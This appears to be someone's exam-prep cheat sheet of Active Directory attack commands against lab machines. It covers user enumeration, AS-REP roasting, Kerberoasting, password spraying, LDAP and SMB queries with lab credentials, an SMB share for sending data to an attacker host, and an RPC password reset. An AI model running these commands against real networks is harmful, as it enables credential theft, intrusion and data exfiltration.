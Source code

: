 
- [ ] Enum4linux

```
enum4linux -a 10.201.11.30
```




- [ ] Kerbrute
```
kerbrute userenum -d MEGACORP.LOCAL --dc 10.10.10.179 userlist.txt -t 100
```

It's time to get the valid usernames to that we can try other attacks

User & Password was given in the Challenge so will use it.
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt

or 

```
GetADUsers.py megacorp.local/ -dc-ip 10.10.10.179
```

```
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.100
```



- [ ] GetNPUsers

ASREPRoasting
>[!bug] Don't do this mistake in the exam
- We have to provide the Domain name and not the host name for the attack

```
GetNPUsers.py MEGABANK/ -usersfile valid_user.txt -format john -dc-ip 10.10.10.172
```


```
GetUserSPNs.py active.htb/svc_tgs:'GPPstillStandingStrong2k18' -dc-ip 10.10.10.100 -request
```




- [ ] SMB Client

```
smbclient -L \\10.201.11.30
```

```
smbclient -L 10.201.11.30 -U 'anonymous'
```

```
smbclient \\\\10.10.10.182\\Data -U 'r.thompson' --password 'rY4n5eva'
```

```
smbmap -u fsmith -d EGOTISTICALBANK.local -p 'Thestrokes23' -H 10.10.10.175
```

```
smbserver.py -smb2support -user testing -password testing SendYourData $(pwd)
```

```
net use x: \\10.10.16.8\SendYourData /user:testing testing
```



## Download the contents of the this share

```
prompt off
```

```
recurse on
```

```
ls
```

```
mget *
```






- [ ] CrackMapexec

```
crackmapexec smb 10.201.11.30 -u '' -p '' --shares
```

```
crackmapexec smb <IP_Address> -u <user_list> -p <password>
```

```
crackmapexec smb <IP_Address> -u <user_list> -p <password_list> 
```

```
cme smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva' --shares
```




 
 - [ ] Ldap
 
```
ldapsearch -x -H ldap://10.10.10.182 -b "dc=cascade,dc=local" "(sAMAccountName=r.thompson)"
```

```
ldapsearch -h <ip_Address> -p 389 -x -b "dc=htb,dc=local"
```

```
ldapsearch -x -H 10.10.10.182 -s base  -b '' "(objectClass=*)" "*" +
```

```
ldapsearch -x -H ldap://sizzle.HTB.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local'
```

```
ldapsearch -x -H ldap://sizzle.HTB.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local' "(&(objectClass=user)(memberOf=CN=Domain Admins, CN=Users,DC=htb,DC=local))" | grep sAMAccountName 
```

```
ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'dc=support,dc=htb'
```


# Rpc Client

We might have to use RPC to change the password of audit2020 let's google and see what could we find.
```
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

```
rpcclient $> setuserinfo2
```

```
rpcclient -U "support" 10.10.10.192
#00^BlackKnight
```

```
setuserinfo2 audit2020 23 '#00^BlackKnight'
```


